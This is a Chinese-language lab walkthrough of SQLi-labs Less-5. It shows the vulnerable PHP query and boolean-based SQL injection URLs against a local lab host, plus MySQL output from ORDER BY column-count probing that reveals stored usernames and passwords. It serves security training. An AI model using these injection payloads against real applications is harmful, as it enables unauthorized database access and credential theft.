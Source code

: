 ```bash
        echo '<font color= "#0000ff" font size= 3>';

        }
}
        else { echo "Please input the ID as parameter with numeric value";}

?>

</font> </div></br></br></br><center>
<img src="../images/Less-5.jpg" /></center>
</body>
</html>
```
`$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";`SQL执行的语句是采用了''闭合,<br />我们要是直接使用?id=1 and 1=1相当于执行的是`SELECT * FROM users WHERE id='1 and 1=1' LIMIT 0,1;`是不会有任何的反应。<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1624072601160-2484f555-bbf7-4484-8b0b-d96d77a7971d.png#clientId=u6d4ee156-1358-4&from=paste&height=238&id=u594d1003&originHeight=415&originWidth=1289&originalType=binary&ratio=2&size=346040&status=done&style=none&taskId=u1c841e07-5b4b-4deb-84cf-144d8550936&width=740.5)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1624072577561-c1623923-a123-460e-886d-760b5b6857d3.png#clientId=u6d4ee156-1358-4&from=paste&height=245&id=ud240a015&originHeight=422&originWidth=1287&originalType=binary&ratio=2&size=345858&status=done&style=none&taskId=u71182be8-1910-4daf-ac6b-f0b56c3c807&width=746.5)<br />正确的报错语句
```bash
http://10.1.1.133/Less-5/?id=1' and '1'='1
http://10.1.1.133/Less-5/?id=1' and '1'='2
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1624072759799-6db0cad1-0771-47b3-9b2d-8ac012959115.png#clientId=u6d4ee156-1358-4&from=paste&height=253&id=u1e148400&originHeight=438&originWidth=1296&originalType=binary&ratio=2&size=349124&status=done&style=none&taskId=uf0298f13-1f38-4dea-ae80-ac884c81b28&width=748)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1624072783472-75a5865e-986e-4891-8857-08b2060d6931.png#clientId=u6d4ee156-1358-4&from=paste&height=215&id=u0ef95926&originHeight=405&originWidth=1410&originalType=binary&ratio=2&size=347668&status=done&style=none&taskId=ubf5285e3-3abb-41bd-a66e-b9fd323cb39&width=750)<br />在浏览器中解释执行的%27是'

在数据库中执行语句为
```bash
mysql> SELECT * FROM users WHERE id='1' and '1'='1' LIMIT 0,1;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set (0.00 sec)

mysql> SELECT * FROM users WHERE id='1' and '1'='2' LIMIT 0,1;
Empty set (0.00 sec)

mysql>

```
获取字段<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1624073239739-f9ec5c37-4727-4789-b624-dd0e961acaae.png#clientId=u6d4ee156-1358-4&from=paste&height=205&id=u0677df5b&originHeight=409&originWidth=1281&originalType=binary&ratio=2&size=345915&status=done&style=none&taskId=ude7df085-cdea-4e01-baed-7b47df7ba5a&width=640.5)<br />--+是将后面的代码注释不执行<br />在数据库中执行
```bash
mysql> SELECT * FROM users WHERE id='1' order by 4;
ERROR 1054 (42S22): Unknown column '4' in 'order clause'
mysql> SELECT * FROM users WHERE id='1' order by 3;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set (0.00 sec)

mysql>

```
**Less-6代码查看**
```bash
```